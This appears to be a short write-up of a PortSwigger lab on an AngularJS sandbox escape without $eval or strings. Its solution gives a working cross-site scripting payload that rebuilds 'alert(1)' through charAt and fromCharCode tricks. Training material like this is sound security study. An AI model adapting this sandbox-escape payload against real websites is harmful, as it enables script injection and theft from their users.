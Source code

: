 ----

### Lab Description

This lab uses [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that escapes the sandbox and executes the `alert` function without using the `$eval` function.


### Lab Solution


- At the search field insert the payload `&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`
![](/static/img/Pasted_image_20230621083653.png)